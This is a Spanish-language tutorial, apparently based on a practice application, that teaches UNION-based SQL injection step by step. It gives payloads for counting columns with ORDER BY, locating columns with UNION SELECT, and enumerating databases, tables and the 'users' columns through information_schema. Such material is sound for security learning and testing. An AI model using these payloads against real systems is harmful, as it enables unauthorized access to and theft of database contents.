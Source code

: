 #### 1 - Usar *order by* para descubrir cuantas columnas tenemos en la consulta

Para descubrir de una manera rápida cuantas columnas está devolviendo la columna en la ejecución de la query en servidor, podemos usar la siguiente instrucción sql medianto injection

> ' order by(n) #

Donde n sera un numero (1, 2, 3, 4) iremos iterando el numero hasta que nos devuelva error, de esa manera conoceremos el número de columnas ya que si decimos que realice ordenación por a columna 3 y da error quiere decir que tenemos 2 columnas. ( n - 1 )

#### 2 - Usar *UNION Select* 

Debemos usar union select para conocer la posición de cada una de las columnas

> ' UNION SELECT 1, 2 #

con está sql inyectada, podremos ver en que posicion está cada columna ya que para el ejemplo de los usuarios tendriamos una respuesta así

> ID: ' UNION SELECT 1, 2 # 
> <br>First Name: 1
> <br>Surname: 2


#### 3 - Identificar tablas de la BBDD

Para identificar las tablas de la base de datos podemos probrar la siguiente inyección

> ' union select database(), 2 #

- database() devuelve el nombre de la base de datos en uso

Para saber las tablas de la base de datos en la que se está ejecutando el ataque de sql inyection usaremos

> ' UNION SELECT table_name, database() from information_schema.tables #
> ' UNION SELECT table_name, database() from information_schema.tables WHERE table_schema = database() #

Esto nos devolverá en las respuestas los datos de las tablas de la bbdd que se está usando


#### 4 - Descubrir las columnas de una tabla

Para descubrir las columnas de una tabla podremos usar la siguiente sentencia

> ' UNION SELECT column_name, 2 from information_schema.columns #

(Se agrega el 2 para tener 2 columns en el select)

Ahora podemos aplicar un filtro para devolver las columnas especificas de la tabla que queramos

> ' UNION SELECT column_name, 2 from information_schema.columns WHERE table_name = 'users' #

Mostrar todas las columnas en un solo resultado

> ' UNION SELECT GROUP_CONCAT(column_name SEPARATOR ','), 2 from information_schema.columns WHERE table_name = 'users' #
